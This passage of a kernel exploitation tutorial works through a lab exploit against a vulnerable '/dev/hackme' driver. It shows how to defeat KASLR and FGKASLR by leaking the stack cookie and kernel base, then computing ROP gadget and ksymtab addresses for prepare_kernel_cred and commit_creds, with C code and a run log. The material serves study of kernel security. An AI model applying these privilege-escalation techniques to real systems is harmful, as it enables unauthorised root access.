 As we know that without KASLR a kernel is loaded at `0xffffffff81000000`, we
can quickly compute the offsets. As an example, in the previous
exploit using a signal for the KPTI bypass, we had the following ROP
gadget.
{% highlight C %}
uint64_t pop_rdi_ret = 0xffffffff8100767c; // pop rdi; ret
{% endhighlight %}
With KASLR, this becomes the following.
{% highlight C %}
uint64_t pop_rdi_ret = kernel_base + 0x0000767cUL; // pop rdi; ret
{% endhighlight %}

### Leaking the Addresses of `prepare_kernel_cred` and `commit_cred`

For our exploit we need the addresses of the functions `prepare_kernel_cred` and `commit_cred`.
Unfortunately for us, both of these symbols are in a section of the kernel that is affected by FGKASLR.
Hence, we cannot compute their addresses in the kernel by adding a fixed offset
to the kernel base.

However, we already saw that there is a section at the end of the kernel
memory containing read-only data whose addresses are randomized using only ASLR and not KASLR.
This section contains the structs `__ksymtab_prepare_kernel_cred` and
`__ksymtab_commit_creds`
whose addresses we could compute.
From these, we can compute the addresses of `prepare_kernel_cred` and `commit_cred`.

So let us start to access `__ksymtab_prepare_kernel_cred` and
`__kstrtab_commit_creds` by adding their offsets to the kernel base address.
For this, we modified the function `leak_cookie()` as follows:

{% highlight C %}
void leak_cookie() {
    uint8_t sz = 40;
    uint64_t leak[sz];
    printf("[*] trying to leak up to %ld bytes memory\n", sizeof(leak));
    uint64_t data = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];
    printf("[+] leaked cookie: 0x%lx\n", cookie);
    uint64_t kernel_base = leak[38] - 0x0a157UL;
    printf("[+] leaked kernel_base 0x%lx\n", kernel_base);
    uint64_t ksymtab_prepare_kernel_cred = kernel_base + 0xf8d4fcUL;
    printf("[+] leaked ksymtab_prepare_kernel_cred 0x%lx\n", ksymtab_prepare_kernel_cred);
    uint64_t ksymtab_commit_creds = kernel_base + 0xf87d90UL;
    printf("[+] leaked ksymtab_commit_creds 0x%lx\n", ksymtab_commit_creds);
{% endhighlight %}

Running this yields the real addresses
of the symbols, as can be shown when contrasting with the true
location within `/proc/kallsyms`.

```
/ # ./leak_cookie
[+] successfully opened /dev/hackme
[*] Saved state
[*] trying to leak up to 320 bytes memory
[+] leaked cookie: 0xaec7370351852800
[+] leaked kernel_base 0xffffffffbd600000
[+] leaked ksymtab_prepare_kernel_cred 0xffffffffbe58d4fc
[+] leaked ksymtab_commit_creds 0xffffffffbe587d90
/ # cat /proc/kallsyms | grep ffffffffbe58d4fc
ffffffffbe58d4fc r __ksymtab_prepare_kernel_cred
/ # cat /proc/kallsyms | grep ffffffffbe587d90
ffffffffbe587d90 r __ksymtab_commit_creds
```
